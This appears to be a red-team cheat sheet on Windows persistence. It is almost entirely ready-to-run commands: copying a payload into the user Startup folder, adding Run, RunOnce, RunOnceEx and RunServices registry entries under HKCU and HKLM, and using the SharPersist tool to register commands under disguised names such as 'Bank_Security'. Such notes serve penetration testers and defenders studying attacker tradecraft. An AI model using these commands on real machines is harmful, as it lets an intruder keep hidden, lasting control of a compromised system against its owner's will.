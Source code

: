# Windows Persistence

### Start up folder&#x20;

```
copy C:\Windows\Temp\notmalware.exe "C:\Users\ngodfrey\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\notmalware.exe"
```

### Registry Persistence&#x20;

* Just change the `example.exe or example.bat` to your executable or script or whatever you want to run
* Adversaries may achieve persistence by adding a program to a startup folder or referencing it with a Registry run key. Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. These programs will be executed under the context of the user and will have the account's associated permissions level.

#### HKCU

* Run Key&#x20;

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
```

* Service start during boot keys

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'Bank_Security' -Value 'C:\Windows\Temp\example.bat'
```

#### HKLM

* Admin privs are needed for these
* Run Key

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```

* Service start during boot keys&#x20;

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```

### SharpPersist

* [https://github.com/fireeye/SharPersist  ](https://github.com/fireeye/SharPersist)

```
SharPersist.exe -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.exe" -f "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.exe" -k "hkcurun" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrun" -v "Bank_Security" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrunonceex" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hkcurunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "logonscript" -m add
```
